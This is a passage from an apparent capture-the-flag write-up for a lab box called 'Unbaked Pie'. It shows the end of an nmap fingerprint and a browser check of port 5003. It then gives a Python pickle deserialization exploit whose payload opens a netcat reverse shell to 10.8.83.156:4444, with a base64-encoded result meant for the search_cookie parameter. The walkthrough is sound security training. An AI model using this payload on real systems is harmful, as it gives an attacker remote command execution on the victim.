 ```bash
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request syntax ('
|     &lt;=
|     ').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data.
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ⤵️

FIrstly I checked the 5003 port on browser and It is a static site →

![Untitled](Unbaked%20Pie/Untitled%201.png)

>I searched related to pickle vulnerability and I got a vulnerability →
>
>[https://davidhamann.de/2020/04/05/exploiting-python-pickle/](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
{: .prompt-tip }


```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.83.156 4444 >/tmp/f')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```
{: .nolineno}
{: .nolineno}

Now I executed this payload and got an input that I used in `search_cookie=` parameter in /search request and send the request →
